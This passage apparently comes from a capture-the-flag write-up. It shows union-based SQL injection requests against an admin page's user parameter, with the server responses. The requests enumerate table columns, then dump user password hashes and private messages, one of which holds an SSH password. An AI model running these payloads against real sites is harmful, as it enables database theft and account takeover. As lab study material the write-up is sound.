 #### Request for enumerating columns inside users table
```html
/admin?user=0 union select group_concat(column_name,'\n'),2,3,4 from information_schema.columns where table_name='users'-- -
```
#### Response
```html
 <br />
          ID: id
,username
,password
,isAdministrator
 <br />
```
There are 4 colums: ie id,username,password and isAdministrator. So lets dump all the contents of the users table.

##### Content of users table
#### Request
```html
/admin?user=0 union select 1,group_concat(id,':',username,':',password,':',isAdministrator,'\n'),3,4 from marketplace.users-- -
```
#### Response
```html
  <div>
          User 1:system:$2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW:0
,2:michael:$2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q:1
,3:jake:$2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG:1
,4:a:$2b$10$O9iXKuQ.xG1ckYhmmYDtzeG2V6O1D8gIUHCrg.iDOK4j3Co.Qgy16:0
 <br />
```
We got few users along with the password hashes.

##### Table : messages
#### Request for enumerating columns inside message table
```html
/admin?user=0 union select group_concat(column_name,'\n'),2,3,4 from information_schema.columns where table_name='messages'-- -
```
#### Response
```html
<br />
          ID: id
,user_from
,user_to
,message_content
,is_read
 <br />
```
##### Content of messages table
#### Request
```html
GET /admin?user=0 union select 1,group_concat(message_content,'\n'),3,4 from marketplace.messages-- -
```
#### Response
```html
          User Hello!
An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password.
Your new password is: @b_ENXkGYUCAv3zJ
```